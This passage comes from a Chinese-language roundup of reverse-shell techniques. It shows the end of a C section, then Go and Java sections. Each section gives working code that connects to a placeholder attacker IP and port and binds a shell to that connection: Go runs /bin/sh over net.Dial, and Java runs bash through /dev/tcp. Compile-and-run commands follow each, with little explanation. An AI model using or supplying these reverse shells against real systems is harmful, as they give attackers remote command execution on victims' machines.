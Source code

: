 	  
    使用gcc直接编译一下，编译之前需要修改代码中的tcp_port和ip参数所对应的数值。编译完成后直接运行即可。  
> gcc test.c -o test  
> ./test  
  
  
  
**07**  
  
  
**Go**  
  
  
##     在《攻防|反弹shell方式汇总》[1]中提供了一个好用的github项目，但是在这里只是需要简单的验证可行性，所以就简单的用他文中提到的代码进行验证即可。  
```
package main
import (
    "net"       // requirement to establish a connection
    "os"        // requirement to call os.Exit()
    "os/exec"   // requirement to execute commands against the target system
)
func main() {
    conn, err := net.Dial("tcp", "[: ip]:[: port]")
    if err != nil {
        os.Exit(1)
    }
    cmd := exec.Command("/bin/sh")
    cmd.Stdin = conn
    cmd.Stdout = conn
    cmd.Stderr = conn
    cmd.Run()
}
```  
```
```  
> 编译Go文件  
> go build ReverseShell.go  
> 执行编译后的二进制文件  
> ./ReverseShell  
  
  
  
**08**  
  
  
**Java**  
  
##   
```
public class Test {
    public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/[: ip]/[: port];cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```  
```
```  
> javac classname.java  
> java classname  
  